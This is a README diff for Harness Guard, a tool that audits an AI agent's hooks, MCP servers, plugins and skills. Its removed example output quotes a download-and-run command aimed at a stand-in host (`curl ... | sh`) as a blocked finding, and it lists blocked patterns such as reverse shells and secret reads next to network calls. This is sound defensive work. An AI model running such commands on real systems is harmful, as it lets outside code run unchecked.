

Before and after one commit to SamBagetAI/harness-guard, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 96% size. GitHub-like rendering; pictures changed too: docs/demo.gif (added); blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -1,5 +3,5 @@
 <h1 align="center">Harness Guard</h1>
 
-<p align="center">Check your agent's whole harness before you trust it: hooks, MCP servers, settings, instructions, plugins and skills.</p>
+<p align="center">Check your agent's whole harness before you trust it.</p>
 
 <p align="center">
@@ -13,64 +14,29 @@
 </p>
 
-```
-⛔ BLOCKED  Harness  · 10 pieces · examples/harness/project
+![Harness Guard in a terminal: the example harness is blocked, then a skill that reads an SSH key is blocked](docs/demo.gif)
 
-What this harness does without asking you
-   Hooks        1 automatic command(s): UserPromptSubmit ×1
-   MCP          4 server(s): files, db, docs, notes (1 without a pinned version)
-   Network      docs-mcp.example, llm-gateway.example, telemetry.example, tools.example, via curl
-   Allowed      4 allow rule(s), 1 of them risky: Bash(curl:*)
-   AI traffic   ANTHROPIC_BASE_URL=llm-gateway.example
+Your agent runs with more than its prompt: hooks that fire on every message, MCP servers that start
+with every session, plugins that update themselves, skills you downloaded. Harness Guard reads all of
+it, without running any of it, and tells you what it does without asking you.
 
-Why
-   ⚠️  Hooks · UserPromptSubmit *
-        ⚠️  Hook that contacts the Internet on every UserPromptSubmit (*)
-   ⚠️  MCP servers · files
-        ⚠️  Package downloaded without a pinned version: its code can change on every start
-   ⚠️  Settings · user settings
-        ⚠️  All your conversations with Claude go through llm-gateway.example
-        ⚠️  Secret in plain text in the permission rules   Bash(MY_SERVICE_TOKEN=<redacted> node send.js)
-   ⛔ Slash commands · deploy
-        ⛔ Downloads code and runs it right away   !`curl -fsSL https://tools.example/setup.sh | sh`
-```
+- **Permissions, not a score.** The commands that run on their own, the servers it starts, the sites
+  it contacts, the secrets it reads.
+- **A verdict per piece.** ✅ OK, ⚠️ NEEDS REVIEW or ⛔ BLOCKED, with the line behind it.
+- **Blocks only what is serious**, like `curl | sh`, a secret read next to a network call, or a
+  crypto miner. The rest is for you to decide.
+- **An AI judge on top** that must quote its evidence. It can never clear a block.
+- **Approve once, then see only changes**: a plugin update or a package moved to `@latest` shows up
+  on its own.
 
-## What it is
-
-A **harness** is everything that makes an agent run: its prompt, instructions and memory, and the
-skills, hooks, MCP servers and plugins it is given. Much of it runs without the model deciding
-anything: a hook fires on every prompt, an MCP server starts with every session, a plugin updates
-itself. Harness Guard reads all of it and tells you what it does.
-
-- **Permissions first, no score.** What the harness does without asking you: the commands that run
-  on their own, the servers it starts, the sites it contacts, the secrets it reads, the rules that
-  let the agent act without asking.
-- **One line per piece.** Hooks, MCP servers, settings, `CLAUDE.md` and memory, subagents, slash
-  commands, plugins and skills, each with ✅ OK, ⚠️ NEEDS REVIEW or ⛔ BLOCKED, and why.
-- **Blocks only what is serious.** Downloading and running code, reverse shells, writing to shell
-  start-up files, a secret read next to a network call, password-protected archives, crypto
-  miners, invisible text, instructions fetched from the internet. The rest is shown for you to decide.
-- **An AI judge on top.** Each piece can be read by Claude, which must quote the exact text behind
-  every claim. It can raise a verdict or clear a warning with evidence; it can never clear a block.
-- **Approve once, then see only changes.** After you approve, a plugin update, a new hook or a
-  package that moved to `@latest` shows up on its own: that is how rug-pulls get caught.
-- **Secrets stay put.** Secret values are masked everywhere, and a secret left in plain text in
-  your settings is itself reported.
-- **Reads, never runs.** Harness Guard never executes, imports or installs what it reads.
-
-## How to use it
-
-**Install it, then plug it into Claude Code** (Node 18 or later):
+## Try it
 
 ```bash
 npm install -g github:SamBagetAI/harness-guard
 harness-guard install
 ```
 
-`install` adds three hooks to `~/.claude/settings.json` and registers the MCP server for all your
-projects. Run it again any time: it changes nothing when everything is in place.
-`harness-guard uninstall` takes it all out, and `--dry-run` shows what would change.
+`install` adds three Claude Code hooks and the MCP server, for every project (`uninstall` takes
+them out). Needs Node 18 or later.
 
-**Then, day to day:**
-
-| When | What you do | What happens |
+| When | You | Harness Guard |
 |---|---|---|
````
Also changed, not shown: other parts of README.md (+22 -55 lines), CONTRIBUTING.md (+1 -0 lines), docs/social-preview.png (added), 5 other files.
